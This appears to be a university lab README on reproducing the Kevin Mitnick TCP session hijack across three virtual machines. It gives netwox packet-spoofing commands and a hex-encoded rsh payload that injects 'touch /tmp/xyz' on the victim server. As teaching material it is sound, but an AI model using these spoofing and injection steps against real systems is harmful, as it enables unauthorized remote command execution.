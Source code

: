 # Kevin Mitnick Attack

## Instructions
(From Jidong Xiao's CS333 Class at Boise State University. To be used with 3 SEED Ubunutu 16.04 machines on the same virtual network)

The Kevin Mitnick Attack 

Requirement: In this demo, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this demo, the attacker's goal is to create a file /tmp/xyz on the victim server machine.

Setup: 3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the demo, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the following document, we assume the victim client's IP is 10.0.2.15, and the victim server's IP is 10.0.2.10.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, client port must be 1023, server port must be 514. In the second connection, server port must be 1023, client port can be anything - let's choose 9090 for example.

Steps:

Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

`sudo apt-get install rsh-redone-client`

`sudo apt-get install rsh-redone-server`

step 2. configure rsh on the victim server machine.

`$ touch .rhosts`

`$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)`

`$ chmod 644 .rhosts`

If the above configuration is correct, you should be able to run below command on the victim client machine, and it will show you current date information.

`rsh [victim server’s IP] date`

step 3. simulating the syn flooding attack.
3.1 on the victim server, run:

`sudo arp -s [victim client’s IP] [victim client’s MAC]`

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

3.2 shutdown the victim client VM or disconnect its network.

step 4. turn on wireshark on the attacker's VM and start capturing.

Attacking steps:

step 1: create the first TCP connection. 

step 1.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

`sudo netwox 40 --tcp-syn --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514`

step 1.2: right after the above command, netwox would show us the sequence number of this SYN packet, let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its sequence number, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

`sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1`

step 1.3: send one ACK packet to the server. This packet carries the command we want to run:

`sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00"`

step 2: create the second TCP connection. After the above ACK packet, the server would automatically sends a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 2.1: 

`sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1`

Verification steps:

step 1: on the victim's server machine, see if /tmp/xyz is created.

==============

Note: In netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz". In rsh, its data's structure is:

`[port number]\x00[uid_client]\x00[uid_server]\x00[your command]\x00`

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

`$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'`

Note 2: In the attacking steps, right after step 1.1, we need to run step 1.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 1.3, we need to run step 2.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniifing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

`sudo sysctl -w net.ipv4.tcp_syn_retries=20`
`sudo sysctl -w net.ipv4.tcp_synack_retries=20`
